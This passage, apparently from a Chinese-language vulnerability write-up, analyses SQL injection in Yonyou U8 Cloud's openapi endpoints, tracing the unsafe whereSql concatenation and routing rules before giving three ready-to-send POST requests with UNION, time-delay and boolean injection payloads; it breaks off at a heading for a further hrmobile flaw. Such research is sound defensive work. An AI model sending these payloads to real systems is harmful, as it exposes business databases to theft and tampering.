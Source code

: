 可以看到 whereSql 中拼接了可控的字符导致sql注入漏洞产生  
#### 二、路由分析  
  
从历史漏洞中分析路径情况 用友U8 Cloud uapbd.refdef.query接口存在SQL注入漏洞  
```
POST /u8cloud/openapi/uap.refdef.query?appcode=huo&isEncrypt=N HTTP/1.1  User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)  Accept-Encoding: gzip, deflate  Accept: */*  Connection: close  Host: xx.xx.xx.xx  Content-Type: application/json  Content-Length: 64    {"refName":"1%' UNION ALL SELECT 1,CONVERT(INT,@@VERSION),1-- "}
```  
  
RefDefAPIQueryAction  
 将漏洞类名称按字母大写拆分uap.refdef.query  
 其中uap为包文件夹名  
  
RefDefAPIQueryAction  
 和SaleOrderBriefingAction  
 都实现了一个接口方法 implements IAction  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvfmz3ZTN8YCutNmVMW9CzzexDITpR8eKTU5XkMSlpCyWwRN63H23lmCg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvfkFboCl7nb6AL4WrgZTbqDS1QmuibuzjnwsZibSCwE0Zrve3Q5ZbFDSjw/640?wx_fmt=png&from=appmsg "")  
  
必须带上 appcode 和 isEncrypt  
```
("lbsj".equals(appCode) || "esn".equals(appCode) || "huo".equals(appCode) || "ubz".equals(appCode)))
```  
  
isEncrypt 必须为N 不然会提示 无法解析来源数据!  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvfJme9x0ZbFLjkLDhcicdJibFCUHK9TnUOIDvGhLZGDzAGvTvGmCRkY7EA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvfx35H7icU2x7MPlRNmXbTDD1K6ogfhoibcauYydpNuwVs7r9Yb8IgZ11w/640?wx_fmt=png&from=appmsg "")  
#### 三、漏洞复现  
  
按照上面的思路来构造路由  
  
文件路径：  
\modules\so\META-INF\lib\so\u8c\bs\so\saleorder\action\SaleOrderBriefingAction.java  
```
POST /u8cloud/openapi/so.saleorder.briefing?appcode=huo&isEncrypt=N HTTP/1.1Host:User-Agent: Mozilla/5.0Content-Length: 141{"pk_corp":"1';WAITFOR DELAY '0:0:2'--","cuserid":"","date_begin":"","date_end":"",}
```  
```
POST /u8cloud/openapi/so.saleorder.briefing?appcode=huo&isEncrypt=N HTTP/1.1Host:User-Agent: Mozilla/5.0Content-Length: 141{"pk_corp":"1' AND 8360 IN (SELECT (CHAR(113)+CHAR(113)+CHAR(107)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (8360=8360) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(106)+CHAR(106)+CHAR(122)+CHAR(113))) AND 'uVGn'='uVGn","cuserid":"","date_begin":"","date_end":"",}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvf3GZfIiaMibl6gCkHCfibS5MKcsTZzYtiaY7mYY3ca0Lo8kSSHN87jcRa8g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvfPHEQiaeL7zDQASj5nISpWpOia8Tt9qQj5Ttu8M1BvxvKNzKN8ZhfjCMw/640?wx_fmt=png&from=appmsg "")  
### U8cloud系统存在hrmobile接口反射类漏洞  
#### 一、影响版本  
  